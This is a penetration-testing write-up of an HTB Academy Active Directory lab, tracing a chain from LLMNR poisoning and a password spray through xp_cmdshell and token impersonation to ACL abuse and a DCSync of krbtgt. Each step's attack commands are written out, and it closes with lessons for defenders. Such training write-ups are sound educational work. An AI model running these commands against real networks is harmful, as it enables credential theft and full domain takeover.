# Active Directory Penetration Testing – Skills Assessment Write-up

**Environment:** `INLANEFREIGHT.LOCAL` (HTB Academy – CPTS-style AD Skills Assessment Lab)
**Type:** Internal Network / Active Directory Penetration Test
**Role:** Penetration Tester (External → Internal Pivot)
**Result:** Full Domain Compromise (Domain Admin on `DC01`)

> This repository documents an end-to-end internal Active Directory penetration test performed in an isolated HTB Academy lab environment, from initial unauthenticated enumeration to full domain compromise. All credentials, hashes, and flags shown in the screenshots below are **redacted/masked** — this is a lab environment, not a real organization, but the write-up follows the same discretion used in real client engagements.

---

## ⚡ TL;DR

Starting from an unauthenticated foothold on a `/23` internal segment, **LLMNR poisoning** captured a crackable NTLMv2 hash, which snowballed into full domain compromise by chaining five separate techniques:

1. **LLMNR poisoning** → cracked hash → low-priv domain user
2. **Plaintext creds in an SMB share** (`web.config`) → MSSQL service account
3. **`xp_cmdshell` + `SeImpersonatePrivilege`** → local admin on SQL01 → domain service account hash
4. **BloodHound** → found a standard user with `GenericAll` on `Domain Admins`
5. **ACL abuse** (password reset / group add) → Domain Admin → DCSync (`krbtgt` extracted)

**Impact:** Full domain compromise (`INLANEFREIGHT.LOCAL`) in a single chained path, from zero credentials to Domain Admin. Jump to the [attack path diagram](#-full-attack-path-summary) or the [flags table](#-flags-captured) for the short version.

---

## 🎯 Objectives

- Enumerate an unknown internal network from a single pivot/jump host
- Identify and exploit a weak authentication protocol (LLMNR) to capture credentials
- Chain low-privilege AD credentials into further access via SMB share misconfigurations and plaintext credentials left in files
- Escalate local privileges on a SQL server via token impersonation
- Perform AD reconnaissance with BloodHound to identify attack paths to Domain Admins
- Abuse a dangerous ACL (`GenericAll`) to escalate directly to Domain Admin
- Compromise the Domain Controller and extract the `krbtgt` hash

## 🧠 Skills Learned

| Category | Skills |
|---|---|
| **Recon & Enumeration** | Nmap scanning, SMB/null session enumeration, AD user/group enumeration, password policy enumeration |
| **Credential Attacks** | LLMNR/NBT-NS poisoning (Responder), NTLMv2 hash cracking (Hashcat), Password Spraying (Kerbrute) |
| **Lateral Movement** | Pass-the-hash / pass-the-password,Evil-WinRM remote access, pivoting through a SOCKS proxy (proxychains) |
| **Privilege Escalation** | MSSQL `xp_cmdshell` abuse, `SeImpersonatePrivilege` abuse (Meterpreter `getsystem`, PrintSpoofer) |
| **AD Exploitation** | BloodHound attack-path analysis, ACL abuse (`GenericAll` → password reset / group membership), Domain Admin escalation |
| **Credential Dumping** | SAM/LSA secrets dumping (`secretsdump.py`), `krbtgt` hash extraction (Golden Ticket pre-req) |
| **Reporting** | Structured methodology documentation, evidence collection, findings-based write-up |

## 🛠️ Tools Used

`Nmap` · `fping` · `CrackMapExec` · `smbclient` · `Responder` · `Hashcat` · `Evil-WinRM` · `xfreerdp` · `Impacket Suite` (`mssqlclient`, `secretsdump`) · `Kerbrute` · `BloodHound` + `Neo4j` · `PowerView` · `Metasploit` (`msfvenom`, `multi/handler`) · `PrintSpoofer` · `proxychains`

---

## 🗺️ Environment Overview

| Host | Hostname | Role | Initial Exposed Services |
|---|---|---|---|
| `172.16.7.3` | DC01 | Domain Controller | SMB, WinRM |
| `172.16.7.50` | MS01 | Member Server | SMB, RDP, WinRM |
| `172.16.7.60` | SQL01 | MSSQL Database Server | SMB |
| `172.16.7.240` | htb-student | Attacker Pivot Host | — |

Access to the internal `172.16.7.0/23` network was obtained through an SSH **dynamic port forward** (`-D`) from the external jump box, with all internal tooling routed through `proxychains`.

```bash
ssh -D 9050 username@ip_box
```

---

## 🔎 Phase 1 — Reconnaissance & Host Discovery

Initial external scan to confirm the pivot host, followed by internal host discovery and service enumeration across the `/23` subnet.

```bash
nmap -sS -sV 10.129.33.75 -Pn -n --disable-arp-ping
fping -asgq 172.16.7.0/23
crackmapexec smb 172.16.7.3 172.16.7.50 172.16.7.60
```

<p align="center">
  <br>
  <em>Initial external port scan identifying the pivot entry point</em>
</p>

<p align="center">
  <br>
  <em>Internal host sweep confirming DC01 / MS01 / SQL01 and domain membership</em>
</p>

<p align="center">
  <br>
  <em>Targeted port scan: DC01 &amp; MS01 expose SMB + WinRM, SQL01 exposes SMB only</em>
</p>

**Findings:** All three hosts are members of `INLANEFREIGHT.LOCAL`. Null-session enumeration (SMB, RPC, LDAP) was attempted but returned `ACCESS_DENIED` — no anonymous foothold available.

**Impact:** No anonymous access — forced a move to credential-capture (LLMNR poisoning) for the initial foothold.

---

## 🧪 Phase 2 — Initial Foothold: LLMNR Poisoning

With no anonymous access available, **LLMNR/NBT-NS poisoning** was used to capture an NTLMv2 hash from normal broadcast name-resolution traffic on the segment.

```bash
responder -I <interface>
hashcat -m 5600 poison.txt /usr/share/wordlists/rockyou.txt
```

<p align="center">
  <br>
  <em>Responder capturing a poisoned NTLMv2-SSP hash for user <code>AB920</code> (hash value redacted)</em>
</p>

The captured NTLMv2-SSP hash was cracked offline with Hashcat against `rockyou.txt`, yielding a valid low-privilege domain credential.

With this credential, authenticated SMB/WinRM access to `MS01` was obtained:

<p align="center">
  <br>
  <em>Authenticated shell on MS01 via Evil-WinRM using the cracked credential</em>
</p>

**Impact:** Initial domain foothold established — a valid low-privilege domain user (`AB920`) with interactive access to MS01.

---

## 📁 Phase 3 — SMB Share Enumeration & Credential Harvesting

Using the low-privilege account, all SMB shares across the three hosts were enumerated (`C$`, `ADMIN$`, `IPC$`, `NETLOGON`, `SYSVOL`, and a custom `Department Shares`).

Deep enumeration of `Department Shares` → `IT\Private\Development\web.config` revealed a **hardcoded MSSQL service-account credential** left in a web application configuration file — a common real-world finding.

<p align="center">
  <br>
  <em><code>web.config</code> pulled from the <code>Department Shares</code> SMB share — plaintext MSSQL connection string with a <code>netdb</code> service-account credential (password redacted)</em>
</p>

A separate **password spray** against all valid AD users (harvested earlier via `crackmapexec --users`) using a seasonal password also succeeded for a second low-privilege account:

```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 users.txt <redacted-candidate-pw>
# → hit: BR086:<redacted>
```

<p align="center">
  <br>
  <em>Successful password spray against the domain (credentials redacted)</em>
</p>

**Impact:** A second compromised account (`BR086`) plus a reusable MSSQL service credential (`netdb`) — direct path into the SQL01 database engine.

---

## 💉 Phase 4 — MSSQL Exploitation & Privilege Escalation (SQL01)

The harvested MSSQL credential was used to authenticate directly to the database engine on `SQL01`:

```bash
proxychains impacket-mssqlclient netdb@172.16.7.60
EXEC xp_cmdshell 'whoami /priv';
```

`xp_cmdshell` was enabled on the instance and the service account held **`SeImpersonatePrivilege`**, a classic token-impersonation privilege escalation vector.

<p align="center">
  <br>
  <em>RCE via MSSQL <code>xp_cmdshell</code> and privilege enumeration</em>
</p>

**Exploitation (two methods demonstrated):**
1. **Meterpreter `getsystem`** — staged a `windows/x64/meterpreter/reverse_tcp` payload via `msfvenom`, delivered through `xp_cmdshell` + PowerShell download cradle, caught with `multi/handler`, then escalated with `getsystem` (Named Pipe Impersonation).
2. **PrintSpoofer** — delivered `PrintSpoofer64.exe` and used it directly to reset the local `Administrator` password via `SeImpersonatePrivilege` abuse.

<p align="center">
  <br>
  <em>Method 1 — Meterpreter <code>getsystem</code> succeeding via technique 5 (Named Pipe Impersonation / PrintSpooler variant)</em>
</p>

<p align="center">
  <br>
  <em>Method 2 — <code>PrintSpoofer64.exe</code> delivered via <code>xp_cmdshell</code> and used to reset the local Administrator password (password redacted)</em>
</p>

Local administrative access on `SQL01` was then used to dump local secrets:

```bash
impacket-secretsdump administrator:'<redacted>'@172.16.7.60   # local admin on SQL01
```

<p align="center">
  <br>
  <em>Local SAM/LSA secrets extraction from SQL01 (hash values redacted)</em>
</p>

A high-privilege **domain** service account credential (`mssqlsvc`) was recovered from the LSA secrets dump and used to gain administrative access on `MS01` as well (RDP + WinRM), confirming credential reuse across the environment:

```bash
proxychains xfreerdp /v:172.16.7.50 /u:mssqlsvc /p:'<redacted>'
evil-winrm -i 172.16.7.50 -u mssqlsvc -p '<redacted>'
```

<p align="center">
  <br>
  <em>Administrative WinRM access on MS01 using the reused <code>mssqlsvc</code> domain credential (flag redacted)</em>
</p>

**Impact:** Local admin on two of three hosts (SQL01, MS01), plus a domain service account hash — blast radius expanded entirely through credential reuse, no new exploit needed.

---

## 🩸 Phase 5 — Active Directory Attack Path Mapping (BloodHound)

With a standard domain foothold established, **BloodHound** was deployed to map the AD attack surface and identify the shortest path to `Domain Admins`.

```bash
bloodhound-python / SharpHound collection → Neo4j → BloodHound GUI
```

<p align="center">
  <br>
  <em>BloodHound shortest path: a standard user holds <code>GenericAll</code> on <code>Domain Admins</code></em>
</p>

**Finding:** A low-privilege user object was discovered to hold a direct **`GenericAll`** ACE on the `Domain Admins` group — a critical misconfiguration allowing full group-membership and password control.

This was confirmed manually with PowerView:

```powershell
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs |
  ? {$_.ActiveDirectoryRights -match "GenericAll"} |
  select SecurityIdentifier, ActiveDirectoryRights
```

<p align="center">
  <br>
  <em>Manual ACL confirmation via PowerView — <code>GenericAll</code> on Domain Admins</em>
</p>

The vulnerable account's password was obtained via a targeted brute-force against the known username:

```bash
crackmapexec smb 172.16.7.3 -u CT059 -p /usr/share/wordlists/rockyou.txt
```

<p align="center">
  <br>
  <em>Targeted brute-force against <code>CT059</code> — the GenericAll-holding account — yielding a valid password (redacted)</em>
</p>

**Impact:** Identified the single highest-value misconfiguration in the domain — a standard user one step away from Domain Admin — and obtained working creds for it.

---

## 🔑 Phase 6 — ACL Abuse → Domain Admin

Two abuse techniques were demonstrated to turn the `GenericAll` right into full Domain Admin control:

**Abuse Path 1 — Targeted Password Reset**
```powershell
Set-DomainUserPassword -Identity administrator -AccountPassword $newPassword -Credential $Cred
# Simpler native alternative:
net user administrator <newpassword> /domain
```

**Abuse Path 2 — Direct Group Membership Addition**
```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'CT059' -Credential $Cred
# Simpler native alternative:
net group "Domain Admins" "CT059" /add /domain
```

<p align="center">
  <br>
  <em>Abusing <code>GenericAll</code> to add the compromised account directly into Domain Admins</em>
</p>

Group membership was verified post-attack:
```powershell
Get-DomainGroupMember -Identity "Domain Admins" | select MemberName, MemberSID
```

**Impact:** Domain Admin achieved — `GenericAll` on a privileged group is a direct, single-step path to full domain control.

---

## 👑 Phase 7 — Domain Controller Compromise

With Domain Admin rights obtained, authenticated access to `DC01` was confirmed via both abuse paths, and the engagement's objective flag was retrieved:

```bash
proxychains evil-winrm -i 172.16.7.3 -u Administrator -p '<redacted>'   # password reset via CT059's GenericAll
```

<p align="center">
  <br>
  <em>Administrative access confirmed on the Domain Controller</em>
</p>

As final proof of full domain compromise, the **`krbtgt`** account's secret material was extracted via DCSync (`secretsdump.py --just-dc-user KRBTGT`) — the key material required to forge Golden Tickets and maintain persistent domain-wide access:

```bash
impacket-secretsdump administrator:'<redacted>'@172.16.7.3 -just-dc-user KRBTGT
```

<p align="center">
  <br>
  <em>DCSync extraction of the krbtgt account (hash values redacted)</em>
</p>

**Impact:** Full domain compromise confirmed. With the `krbtgt` hash in hand, an attacker could forge Golden Tickets for persistent, long-term domain-wide access even after passwords are rotated.

---

## 🧩 Full Attack Path Summary

```
External Pivot (SSH -D)
        │
        ▼
Internal Recon (Nmap / fping / CrackMapExec)
        │
        ▼
LLMNR Poisoning → NTLMv2 Hash → Hashcat Crack
        │
        ▼
Low-Priv Domain User (MS01 access via Evil-WinRM)
        │
        ▼
SMB Share Enum → Plaintext MSSQL Creds found in web.config
   +    Password Spraying → 2nd low-priv account
        │
        ▼
MSSQL xp_cmdshell RCE on SQL01
        │
        ▼
SeImpersonatePrivilege Abuse (Meterpreter getsystem / PrintSpoofer)
        │
        ▼
Local Admin on SQL01 → secretsdump → Domain Service Account Hash
        │
        ▼
Admin Access on MS01 (credential reuse)
        │
        ▼
BloodHound Attack Path Analysis
        │
        ▼
GenericAll on "Domain Admins" discovered → brute-force target account
        │
        ▼
ACL Abuse (Password Reset / Group Membership) → Domain Admin
        │
        ▼
Full Domain Compromise on DC01 + krbtgt Hash (DCSync)
```

---

## 🏁 Flags Captured

| Stage | Host | Flag (masked) |
|---|---|---|
| Initial Foothold | MS01 | `aud1t_gr0up_m********!` |
| ACL Abuse | DC01 | `acLs_f0r_th3_w**!` |
| Local Admin | SQL01 | `s3imp3rs0nate_c*******` |

*(Flags are partially masked intentionally — full values withheld as this write-up is published publicly.)*

---

## 📚 Key Takeaways / Lessons for Defenders

- **LLMNR/NBT-NS** should be disabled via GPO; it was the initial entry point for this entire chain.
- **Credentials should never be stored in plaintext** in share-accessible config files (`web.config` in this case).
- **Seasonal / weak passwords** remain highly effective against password spraying — enforce strong password policy + lockout thresholds.
- **`xp_cmdshell`** should be disabled on production SQL Servers unless explicitly required, and service accounts should run with least privilege (no `SeImpersonatePrivilege` where avoidable).
- **Dangerous ACLs** (`GenericAll`, `GenericWrite`, `WriteDacl`, etc.) on privileged groups like `Domain Admins` are one of the most common real-world paths to full domain compromise — regular BloodHound audits of AD ACLs are essential.
- **Credential reuse** across member servers dramatically increases blast radius once a single host is compromised.

---

## ⚠️ Disclaimer

This assessment was performed in a **closed, authorized HTB Academy training lab** (`INLANEFREIGHT.LOCAL`), a fictitious company used strictly for educational purposes. No real systems, data, or organizations were involved. All credentials, password hashes, and flags shown in this repository have been redacted or masked.

---

## 👤 About

Write-up prepared as part of a hands-on **Active Directory Penetration Testing skills assessment**, demonstrating a complete internal network compromise methodology from unauthenticated recon through full domain takeover — aligned with industry-standard internal pentest / CPTS-style methodology.
